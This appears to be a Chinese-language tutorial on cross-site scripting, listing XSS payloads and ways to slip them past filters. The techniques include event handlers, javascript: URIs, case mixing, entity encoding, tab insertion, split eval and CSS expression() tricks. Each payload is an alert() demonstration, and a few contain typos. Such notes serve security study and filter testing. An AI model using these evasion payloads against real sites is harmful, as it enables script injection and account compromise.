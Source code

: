 #### xss构造

1. 利用<>构造HTML标签和JS<script>标签

    提交`<script>alert(/xss/)</script>`，触发xss攻击

2. 使用JavaScript以为协议方式构造xss

    javascript:alert(/xss/)

    `<a href="javascript:alert(/xss/)">touch me!</a>`

3. 产生的事件

    网页中会发生很多事件，JS可以对这些事件进行响应，可以通过事件触发JS函数，触发XSS

    1. windows事件，对windows对象触发的事件

    2. form事件，HTML表单的动作触发事件

    3. keyboard事件，键盘按键

    4. mouse事件，鼠标或类似用户动作触发的事件

    5. meida事件，由多媒体触发的事件

        鼠标悬停图片触发XSS：<img src='./smile.jpg' onmouseover='alert(/xss/)'>

        点击键盘任意按键触发XSS：`<input type="text" onkeydown="alert(/xss/)">`

        `<input type="text" onkeyup="alert(/xss/)">`

        `<input type="button" onclick="alert(/xss/)">`

    6. 其他标签和手法

        `<svg onload="alert"(/xss/)">`

        `<input onfocus=alert(/xss/) autofucus>`

        

#### XSS的变形

通过构造xss代码进行各种变形，以绕过xss过滤器的检测

1. 大小写转换，将payload进行大小写转化，如：

    `<Img sRc='#' Onerror="alert(/xss/)" />`

    `<a hREf="javaScript:alert(/xss/)">click me</a>`

2. 引号的使用，HTML对引号的使用不敏感，但是某些过滤函数比较严格

    `<img src="#" onerror="alert(/xss/)"/>`

3. /代替空格，可以利用左斜线代替空格

    `<Img/sRc='#'/Onerror='alert(/xss/)' />`

4. 回车，可以在一些位置添加Tab（水平制表符）和回车符，来绕过关键字检测，很难检测到

    `<A hREf="j

    a	v

    a	s

    c	R

    i	p

    t	:

    alert(/xss/)">click me!</a>`

5. 对标签属性值进行转码，用来绕过过滤，对应编码如下：

    | 字母 | ASCII码 | 十进制编码 | 十六进制编码 |
    | ---- | ------- | ---------- | ------------ |
    | a    | 97      | &#97;      | &#x61;       |
    | e    | 101     | &#101;     | &#x65;       |

    编码之后显示：

    `<A hREf="j&#97;v&#x61;script:alert(/xss/)">click me!</a>`

    - 可以将一下任意字符插到任意位置：

      tab	&#9

      换行	&#10

      回车	&#13

    - 也可以将以下字符插入到头部位置：

      SOH	&#01

      STX	&#02

      编码之后的样子

    - 编码之后的样子：

      `<A hREf="&#01;j&#97;v&#x61;s&#9;c&#10;r&#13;ipt:alert(/xss/)">click me!</a>`

6. 拆分跨站

    `<script>z='alert'</script>`

    `<script>z=z+'(/xss/)'</script>`

    `<script>eval(z)</script>`

7. 双写绕过

    `<script>`

    `<scr<script>ipt>`

8. CSS中的变形

    - 使用全角字符

      width:ｅｘｐｒｅｓｓｉｏｎ(alert(/xss/))

    - 注释会被浏览器忽略

      width:expr/*~*/ession(alert(/x~s~s))

    - 样式表中的`[\]`和`[0]`

      `<style>@import	'javasc\ri\0pt:alert("xss")';</style>`

    